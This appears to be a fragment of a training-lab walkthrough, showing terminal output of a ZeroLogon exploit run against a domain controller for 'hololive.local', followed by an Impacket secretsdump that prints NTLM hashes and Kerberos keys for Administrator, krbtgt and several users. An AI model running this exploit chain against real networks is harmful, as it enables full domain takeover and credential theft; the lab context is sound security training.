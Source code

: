 What domain are you attacking?
*hololive.local*

```
┌──(impacketEnv)─(kali㉿kali)-[~/Downloads/zerologon_learning]
└─$ python3 zeroLogon-NullPass.py DC01 10.10.212.36           

 _____                   __                         
/ _  / ___ _ __ ___     / /  ___   __ _  ___  _ __  
\// / / _ \ '__/ _ \   / /  / _ \ / _` |/ _ \| '_ \ 
 / //\  __/ | | (_) | / /__| (_) | (_| | (_) | | | |
/____/\___|_|  \___/  \____/\___/ \__, |\___/|_| |_|
                                  |___/             
                Vulnerability Discovered by Tom Tervoort
                              Exploit by Ronnie Bartwitz
  
Performing authentication attempts...
Failure to Autheticate at attempt number: 444
Zero Logon successfully exploited, changing password.

```

```
┌──(impacketEnv)─(kali㉿kali)-[~/Downloads/zerologon_learning]
└─$ secretsdump.py -just-dc -no-pass DC01\$@10.10.212.36
Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2179ebfa86eb0e3cbab2bd58f2c946f5:::
hololive.local\a-koronei:1104:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\a-fubukis:1106:aad3b435b51404eeaad3b435b51404ee:2c90bc6c1c35b71f455f3d08cf4947bd:::
hololive.local\matsurin:1107:aad3b435b51404eeaad3b435b51404ee:a4c59da4140ebd8c59410370c687ef51:::
hololive.local\fubukis:1108:aad3b435b51404eeaad3b435b51404ee:f78bb88e1168abfa165c558e97da9fd4:::
hololive.local\koronei:1109:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\okayun:1110:aad3b435b51404eeaad3b435b51404ee:a170447f161e5c11441600f0a1b4d93f:::
hololive.local\watamet:1115:aad3b435b51404eeaad3b435b51404ee:50f91788ee209b13ca14e54af199a914:::
hololive.local\mikos:1116:aad3b435b51404eeaad3b435b51404ee:74520070d63d3e2d2bf58da95de0086c:::
DC01$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:3415e858d1caff75baeb02c4dd7154328ea6c87f07336a5c926014392a40ed49
Administrator:aes128-cts-hmac-sha1-96:535501623337ae03580527692f08f0e1
Administrator:des-cbc-md5:bf34685d383e6734
krbtgt:aes256-cts-hmac-sha1-96:9702af2b67c5497940d0f0a7237fbd53d18fb2923fadd37f4ba33d6d5dab4583
krbtgt:aes128-cts-hmac-sha1-96:81628713bd5608becc4325052eb9702d
krbtgt:des-cbc-md5:25f1cea1542f9e31
hololive.local\a-koronei:aes256-cts-hmac-sha1-96:8085b97e73f4dfa6e2cc52a885dd3b1339bf17c17e999a8863686bdf0d800763
hololive.local\a-koronei:aes128-cts-hmac-sha1-96:2f6fd0c9e56a00883ab21544791becab
hololive.local\a-koronei:des-cbc-md5:89df5b3b9b680ea1
hololive.local\a-fubukis:aes256-cts-hmac-sha1-96:7b675daa6cd54ae667a2726a5d99259638b29467fd8e4b3cd6ec4e9564a168dd
hololive.local\a-fubukis:aes128-cts-hmac-sha1-96:883e1d7b14b9024527bd7da69c80a350
hololive.local\a-fubukis:des-cbc-md5:94294304ec7637c1
hololive.local\matsurin:aes256-cts-hmac-sha1-96:cfde1ad860382daa706dd11d585ff1512eef873dc85ae9a88437dc7501fa8e04
hololive.local\matsurin:aes128-cts-hmac-sha1-96:08a011409d044e2f1aec7a6782cbd7b5
hololive.local\matsurin:des-cbc-md5:04fde39d61c215fe
hololive.local\fubukis:aes256-cts-hmac-sha1-96:ed8e594f0b6b89cfa8030bcf9f3e41a9668793a12f598e42893fe8c9f6c5b8eb
hololive.local\fubukis:aes128-cts-hmac-sha1-96:ee003acb55927bb733826aa9a9ddfb53
hololive.local\fubukis:des-cbc-md5:075b8ffde398fe80
```